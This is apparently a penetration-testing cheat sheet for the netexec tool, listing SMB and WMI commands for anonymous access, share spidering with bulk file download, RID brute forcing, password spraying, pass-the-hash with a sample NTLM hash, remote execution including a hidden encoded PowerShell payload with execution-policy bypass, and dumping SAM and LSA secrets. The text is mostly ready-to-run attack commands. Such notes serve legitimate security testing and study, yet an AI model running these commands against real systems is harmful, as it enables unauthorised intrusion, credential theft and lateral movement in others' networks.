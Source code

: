 ```yaml
---
tags:
  - tool
  - smb
  - ldap
  - wmi
  - brute_forcing
---
```

# netexec

Enumerate services

## Capabilities

### SMB

```bash
# Null authentication
nxc smb $IP -u '' -p ''

# Anonymous authentication
nxc smb $IP -u 'a' -p ''

# Enumerate shares
nxc smb $IP -u 'a' -p '' --shares
nxc smb $IP -u 'a' -p '' --spider SHARE --depth 1

# Spider all shares, downloading all readable files
nxc smb $IP -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=.
# List all files with their respective shares
cat $IP.json | jq '. | map_values(keys)'

# Brute force usernames through RIDs
nxc smb $IP -u 'a' -p '' --rid-brute 10000

# Brute force discovered users
nxc smb $IP -u users.txt -p users.txt --continue-on-success

# Password spray
nxc smb $IP -u users.txt -p 'password' -d corp.com --continue-on-success
```

### Credentialed commands

```bash
# Check credentials (default to smb)
nxc smb $IP -u username -p 'password'

# Execute commands (default to wmi, then smb)
nxc wmi $IP -u username -p 'password' -x whoami
nxc smb $IP -u username -p 'password' -x whoami
nxc smb $IP -u username -p 'password' -x 'powershell -nop -w hidden -noni -ep bypass -e JABjAGwAaQBlAG4AdAAgAD0AIABO...'
```

NOTE: Add `--local-auth` flag to check credentials against the local user database, as opposed to the domain

Check a NetNTLMv2 hash with the following commands

Example hash:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::
```

```bash
nxc smb 192.168.1.0/24 -u username -H 'NTHASH'
nxc smb 192.168.1.0/24 -u username -H 'LM:NT'
```

Applied to our example:

```bash
nxc smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
nxc smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
```

#### Obtaining credentials

```bash
# Dump SAM (requires Domain Admin or Local Admin Privileges with --local-auth)
nxc smb $IP -u Administrator -p 'password' --sam

# Dump LSA secrets (requires Domain Admin or Local Admin Privileges with --local-auth)
nxc smb $IP -u Administrator -p 'password' --lsa
```
